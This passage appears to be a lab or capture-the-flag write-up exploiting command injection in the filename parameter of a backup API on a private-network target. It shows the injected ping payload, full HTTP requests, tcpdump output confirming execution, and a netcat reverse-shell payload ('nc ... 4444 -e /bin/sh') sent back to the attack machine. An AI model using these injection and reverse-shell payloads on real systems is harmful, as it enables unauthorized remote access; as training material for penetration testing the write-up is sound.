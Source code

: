 Let’s attempt command injection on this field. For example, we can  attempt to instruct the target to send ICMP requests to our attack  machine with the following payload:

```
; ping -c 2 192.168.118.3;
```

Here’s the request:

```
GET /api/backup?filename=;%20ping%20-c%202%20192.168.118.3; HTTP/1.1
Host: 192.168.120.127
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.120.127/
Cookie: connect.sid=s%3AKOYlSeEABkSVNpIYQj3XwAhlitHWC8lt.Fb%2Be3zVcpIClXV1Q4xNOShygp0xWFiywDm%2FNPLLRh%2FA
```

Let’s run `tcpdump`, filtering for ICMP packets.

```
kali@kali:~$ sudo tcpdump -i tap0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tap0, link-type EN10MB (Ethernet), capture size 262144 bytes
13:03:59.804083 IP 192.168.120.127 > kali: ICMP echo request, id 900, seq 1, length 64
13:03:59.804276 IP kali > 192.168.120.127: ICMP echo reply, id 900, seq 1, length 64
13:04:00.806200 IP 192.168.120.127 > kali: ICMP echo request, id 900, seq 2, length 64
13:04:00.806252 IP kali > 192.168.120.127: ICMP echo reply, id 900, seq 2, length 64
^C
4 packets captured
4 packets received by filter
4 packets dropped by kernel
kali@kali:~$ 
```

This reveals that the target machine indeed pinged our attack machine. We have obtained command injection.

### Reverse Shell

Leveraging this command injection vulnerability, let’s attempt to  upgrade to a reverse shell. We’ll start a netcat listener on port 4444  and then use the following payload to send the shell:

```
GET /api/backup?filename=;%20nc%20192.168.118.3%204444%20-e%20/bin/sh; HTTP/1.1
Host: 192.168.120.127
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.120.127/
Cookie: connect.sid=s%3AKOYlSeEABkSVNpIYQj3XwAhlitHWC8lt.Fb%2Be3zVcpIClXV1Q4xNOShygp0xWFiywDm%2FNPLLRh%2FA
```
